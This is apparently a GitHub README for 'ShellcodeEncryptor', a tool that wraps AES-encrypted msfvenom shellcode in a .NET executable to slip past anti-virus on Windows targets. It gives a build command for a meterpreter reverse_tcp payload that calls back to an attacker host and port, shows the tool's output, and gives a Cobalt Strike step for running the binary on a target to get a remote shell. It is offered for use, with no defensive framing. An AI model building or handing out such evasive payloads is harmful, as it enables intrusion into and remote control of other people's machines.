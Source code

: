 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

<img src="https://raw.githubusercontent.com/plackyhacker/ShellcodeEncryptor/master/demo.gif" alt="Demo " style="zoom:150%;" />

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a Windows target, bypassing anti-virus.

# Instructions

Use the `builder.py` to create the executable (you will need `mono` installed on your Linux box):
```
root@kali:~# ./launcher.py -p windows/meterpreter/reverse_tcp --arch x86 --lport 4444 --lhost 10.10.14.5 --key my_super_key -f boom.exe
[+] Generating MSFVENOM payload...
[+] Encrypting the payload...
[+] Generating launcher.cs file...
[+] Compiling the launcher...
[+] Launcher compiled and written to ./boom.exe
[+] Have a nice day!
```

Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/boom.exe
```

Hopefully you will have a nice meterpreter shell.

# Notes

https://github.com/plackyhacker/ShellcodeEncryptor/blob/master/launcher.cs is provided as a referencefor the method used.
Tested with x86 windows/meterpreter/reverse_tcp
